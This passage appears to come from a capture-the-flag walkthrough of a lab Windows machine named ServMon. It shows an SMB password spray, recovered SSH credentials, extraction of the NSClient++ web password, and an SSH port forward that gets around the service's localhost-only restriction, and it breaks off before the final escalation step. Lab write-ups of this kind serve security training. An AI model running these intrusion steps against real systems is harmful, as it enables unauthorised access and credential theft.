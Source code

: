 ```shell
nxc smb 10.129.141.209 -u Administrator Nathan Nadine -p passwords.txt
```
The command above gave us a valid combination:

```shell
ServMon\Nadine:L1k3B1gBut7s@W0rk
```
### SSH access as user nadine
Now we can try and use the credentials we got to get access through SSH as the user nadine:

```shell
ssh nadine@10.129.141.209
# Password: L1k3B1gBut7s@W0rk
```
Nice! The credentials were valid.
### User Flag
Now we can get the user.txt flag:

```shell
type C:\Users\Nadine\Desktop\user.txt
```
# Privilege Escalation
### Getting NSClient++ Password and SSH Port 8443 Forward to get access into NSClient++
From our previous enumeration, we know that NSClient++ is running at port 8443.

Enumerating the folders, we found the location of NSClient++. We can now get the password running the following command inside the NSClient++ folder:

```shell
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```
However, if we go straight to the following URL:

```shell
https://10.129.141.209:8443
```
And try to use the credentials... we will get an error 403 Your not allowed.

Examining the file nsclient.ini at the NSClient++ folder we can see that only localhosts are allowed:

```shell
; Undocumented key
allowed hosts = 127.0.0.1
```
We can use the following command to do a port forward and allow us to access the NSClient++ login portal:

```shell
ssh nadine@10.129.141.209 -L 8443:127.0.0.1:8443
# Password: L1k3B1gBut7s@W0rk
```
Once connected, we can access the login portal at the following URL:
